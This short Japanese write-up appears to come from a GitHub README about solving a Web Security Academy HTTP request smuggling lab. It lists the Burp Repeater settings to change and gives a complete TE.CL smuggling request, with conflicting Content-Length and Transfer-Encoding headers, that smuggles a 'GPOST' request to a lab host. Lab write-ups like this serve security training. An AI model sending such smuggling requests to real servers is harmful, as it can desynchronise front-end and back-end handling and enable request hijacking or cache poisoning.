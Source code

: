 攻撃を通すためにいくつかの設定を行いましょう。

まずはInspectorで`HTTP/2` -> `HTTP/1.1`にします。

次に、`Burp > Repeater > Message modification`の`Update cntent length`のチェックをOFFにします。

こうしないとContent-Lengthが自動的に更新されうまく行きません。

```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5d
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0


```

![](./images/README_231013_153733.png)